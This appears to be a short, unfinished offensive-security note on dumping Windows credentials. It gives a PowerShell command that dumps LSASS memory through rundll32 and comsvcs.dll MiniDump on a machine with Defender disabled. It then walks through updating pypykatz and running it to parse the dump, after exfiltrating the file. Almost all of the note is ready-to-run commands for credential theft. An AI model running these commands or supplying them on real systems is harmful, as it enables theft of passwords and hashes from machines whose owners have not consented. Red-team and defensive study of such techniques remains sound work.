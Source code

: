 
>[!info]
>This note is still in development.


```powershell
# Requires a neutered Windows Defender
$Process = (Get-Process -Name "lsass").Id
$OutFile = "C:/Windows/Temp/rundll"

# Dump LSASS via the "comsvcs.dll"
C:\Windows\system32\rundll32.exe C:\Windows\system32\comsvcs.dll MiniDump $Process $OutFile full
```

- Next you'll have to have exfil the dump file and read it with ``pypykatz``
	- Currently, the Kali version of ``pypykatz`` is version 0.6.6 which does not support Windows 11 dumps.  To fix this, we need to update to the latest version (0.6.8).

```shell
# Manual Pypykatz Installation
pip3 install minidump minikerberos asn1crypto
git clone https://github.com/skelsec/pypykatz
cd pypykatz
sudo python3 setup.py install

# Validate pypykatz version was updated
pypykatz version
```

Once ``pypykatz`` is updated, we can read the lsass dump.
```shell
pypykatz lsa minidump rundll > lsass_output.txt
```
